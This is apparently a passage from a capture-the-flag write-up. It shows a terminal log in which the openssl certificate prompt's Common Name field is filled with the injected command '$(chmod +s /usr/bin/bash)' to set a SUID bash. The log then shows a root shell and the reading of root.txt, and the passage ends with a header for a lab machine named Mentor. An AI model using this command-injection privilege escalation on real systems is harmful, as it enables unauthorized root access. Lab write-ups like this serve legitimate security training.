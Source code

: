 ``` bash
openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /home/bill/Certs/broscience.key -out /home/bill/Certs/broscience.crt -days 1
/home/bill/Certs/broscience.crt -days 1
Generating a RSA private key
...................++++
..........................................................++++
writing new private key to '/home/bill/Certs/broscience.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:FL
Locality Name (eg, city) []:sl
Organization Name (eg, company) [Internet Widgits Pty Ltd]:sd
Organizational Unit Name (eg, section) []:sd        
Common Name (e.g. server FQDN or YOUR name) []:$(chmod +s /usr/bin/bash)
Email Address []:s
bill@broscience:~$ /usr/bin/bash -p
bill@broscience:~$ whoami
bill
bill@broscience:~$ nash    ^C
bill@broscience:~$ bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt
6........................43
```


# MENTOR
---


![image](./assets/img/mentor.png)

<br /><br />
---

* MACHINE:Mentor
* Level: medium
* IP: 10.10.11.193
